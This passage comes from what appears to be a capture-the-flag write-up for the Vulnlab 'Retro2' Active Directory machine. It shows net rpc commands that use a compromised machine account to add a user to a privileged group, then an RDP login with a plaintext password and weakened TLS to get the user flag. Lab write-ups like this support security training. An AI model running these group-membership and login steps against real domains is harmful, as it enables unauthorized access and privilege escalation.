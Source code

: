 ```
┌──(destiny㉿falcon)-[~/tools-backup]
└─$ net rpc group addmem "Services" "ldapreader" -U "retro2.vl"/"ADMWS01$"%"Passw0rd1" -S "BLN01.RETRO2.VL" 
```

Using **`net rpc group members`**, we were able to verify that our user was successfully added.

```
┌──(destiny㉿falcon)-[~/tools-backup]
└─$ net rpc group members "SERVICES" -U retro2.vl/"ADMWS01$" -S BLN01.retro2.vl
Password for [RETRO2.VL\ADMWS01$]:
RETRO2\inventory
RETRO2\ldapreader
```

Got the following error when attempting RDP:

```
┌──(destiny㉿falcon)-[~/Vulnlab/Machines/Retro2]
└─$ xfreerdp /v:10.10.69.202 /u:ldapreader /p:ppYaVcB5R
[18:15:37:643] [53594:53595] [ERROR][com.freerdp.core] - transport_connect_tls:freerdp_set_last_error_ex ERRCONNECT_TLS_CONNECT_FAILED [0x00020008]
```

Used the following command and was able to RDP into the machine:

```
┌──(destiny㉿falcon)-[~/Vulnlab/Machines/Retro2]
└─$ xfreerdp /v:10.10.69.202 /u:ldapreader /p:ppYaVcB5R /tls-seclevel:0
```

And was able to obtain the user flag as well.
